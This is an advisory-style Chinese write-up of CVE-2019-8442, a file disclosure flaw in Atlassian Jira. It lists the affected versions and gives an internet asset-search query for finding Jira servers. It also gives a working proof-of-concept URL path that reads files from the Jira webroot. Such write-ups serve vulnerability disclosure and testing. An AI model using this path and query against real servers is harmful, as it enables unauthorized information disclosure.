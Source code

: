 # Atlassian Jira com.atlassian.jira 敏感信息泄漏 CVE-2019-8442

## 漏洞描述

Atlassian Jira是澳大利亚Atlassian公司的一套缺陷跟踪管理系统。该系统主要用于对工作中各类问题、缺陷进行跟踪管理。 远程攻击者可利用该漏洞访问Jira webroot中的文件。

## 漏洞影响

<a-checkbox checked>Atlassian Jira < 7.13.4</a-checkbox></br>

<a-checkbox checked>Atlassian Jira 8.00-8.0.4</a-checkbox></br>

<a-checkbox checked>Atlassian Jira 8.1.0-8.1.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ATLASSIAN-JIRA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1651291151659-56949fca-ccf9-4acb-9a06-0835aba9b385.png)

验证POC

```java
/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
```

![img](../../../.vuepress/public/img/1651291176483-c9859fd7-d8a8-442f-9524-0e84f6137322.png)